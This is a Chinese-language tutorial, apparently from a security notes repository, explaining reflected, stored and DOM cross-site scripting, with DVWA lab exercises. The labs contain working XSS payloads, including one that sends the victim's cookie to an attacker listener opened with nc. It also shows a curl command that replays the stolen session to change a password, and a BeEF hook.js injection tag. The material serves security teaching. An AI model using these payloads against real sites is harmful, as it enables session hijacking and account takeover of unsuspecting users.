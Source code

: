# 跨站脚本攻击（Cross-site Scripting，XSS）

跨站脚本攻击（Cross-site scripting，XSS）是一种网站安全客户端漏洞，攻击者可以利用这种漏洞在网站上注入恶意的客户端代码。当受害者登陆网站时就会自动运行这些恶意代码，攻击者可以劫持用户会话、破坏网站、将用户重定向到恶意站点。

在OWASP Top 10 2017中，XSS攻击位于第7位。

![Cross-site scripting](https://portswigger.net/web-security/images/cross-site-scripting.svg)

## 漏洞原理

XSS攻击分为3个类别，包括反射型（非持久型）、存储型（持久型）和DOM型。

### 反射型

反射型XSS是跨站脚本攻击中最简单的一种类型，攻击载荷包含在HTTP请求中。

攻击者一般通过发送电子邮件，诱使受害者访问包含恶意代码的URL。反射型XSS通常出现在搜索栏、用户登录等地方。反射型XSS漏洞往往被认定为低危漏洞，因为随着用户的安全意识提高，在实战过程中利用难度高。

### 存储型

存储型XSS，是指用户的恶意输入被存储下来，并在后期通过其他用户或管理员的页面进行展示。存储型XSS具有很高的隐蔽性，不需要受害者点击特定的URL，通常被认为高危风险。

攻击场景多见于论坛、博客文章的评论、用户昵称等等。

### DOM型

传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM型XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。

```javascript
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

## DVWA攻击场景示例

```
<script>alert(/xss/)</script>
<script>alert(document.cookie)</script>
<script>document.location = "http://google.com"</script>
```

### 实验一、利用XSS漏洞盗取并利用Cookie

第一步，在Kali Linux中，使用`nc`命令监听端口

```bash
nc -lvp 1234
```

第二步，在DVWA中，输入payload
```javascript
<script>new Image ().src="http://192.168.164.128:1234/"+document.cookie;</script>
```
第三步，在Kali Linux中，查看终端信息
```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 38900
GET /security=low;%20PHPSESSID=kavqn49seghn91lcbs6j411v75 HTTP/1.1
...
```
第四步，使用盗取的Cookie

方法一，使用`开发者工具`

`F12`打开开发者工具，选择`存储（storage）`标签页，左侧选择`Cookies`，对相应字段进行编辑，最后访问页面即可。

方法二，使用浏览器插件

推荐使用`Cookies Quick Manager`

方法三，使用`curl`命令

```bash
curl --cookie "/security=low;%20PHPSESSID=kavqn49seghn91lcbs6j411v75" --location "localhost/dvwa/vulnerabilities/csrf/?password_new=chicken&password_conf=chicken&Change=Change#" | grep "Password"
```

### 实验二、使用[BeEF](https://beefproject.com/)框架

新版本Kali Linux，已经移除Beef，需要手工安装

```bash
$ beef-xss                                                                                                   
Command 'beef-xss' not found, but can be installed with:
sudo apt install beef-xss
Do you want to install it? (N/y)y 输入y
....
$ sudo beef-xss
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 输入新密码
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>
....
```

参考

https://www.freebuf.com/sectool/178512.html

## 参考资料

- [OWASP,Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger，Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)
- [MDN Web Docs，跨站脚本攻击](https://developer.mozilla.org/zh-CN/docs/Glossary/Cross-site_scripting)

